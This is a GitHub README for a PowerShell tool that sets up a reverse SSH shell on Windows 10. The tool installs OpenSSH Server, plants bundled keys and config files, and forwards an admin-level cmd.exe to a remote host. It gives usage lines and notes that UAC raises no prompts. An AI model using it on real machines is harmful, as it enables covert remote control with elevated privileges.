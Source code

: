 # lol-reverseSSHell.ps1
Living Off the LAN - Reverse SSHell

This script is intended to make SSH reverse shells easier to initiate on Windows 10. It utilizes OpenSSH Server (instead of NetCat / NCat) to forward a CMD.exe shell. If OpenSSH Server is missing from the Windows 10 host, the script will install it via WindowsCapability / DISM. ( * If OpenSSH server is missing, the script will ask to install it, then download OpenSSH Server from Microsoft.) Then the script will copy the sshd_config file, ssh private key, and authorized_keys files from the repo's root to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell served is CMD.exe by default. Once you're in the cmd.exe cli, you can type 'powershell' to get a PS shell. 

* Please generate NEW SSH KEYs. Use the repo's keys only for testing. 

Usage: 
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost `<IP Address>`
* .\lol-reverseSSHell.ps1 -DestinationUserName aj -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 7777 -InstallOpenSSHServer yes 
  - -OR- 
* Double Click .bat file and enter requested information.

Setup Instructions for SSH Keypairs and Help Documentation: 
* get-help .\lol-reverseSSHell.ps1 
* get-help .\lol-reverseSSHell.ps1 -Examples

Remote cmd.exe in a bash terminal via ssh: 
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)
Remotely executing commands via cmd.exe and powershell.exe:  
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image02.png?raw=true)

Windows vs Unix Reverse SSH Shells, & the Interesting Security Implications for Windows Users
-----------------------------------------------------------------------------------------------   
* Admin Privleges - Because the shell is ran using admin privleges, and most Windows users run as privleged users, the shell will have admin privleges without ever needing to know the admin password. After a shell has been initiated, there are no password prompts or UAC alerts to prevent commands from being ran with elevated privleges. Almost equivlent to a root shell in Unix. Which means you can browse the entire file system and modify system files without permissions issues.  

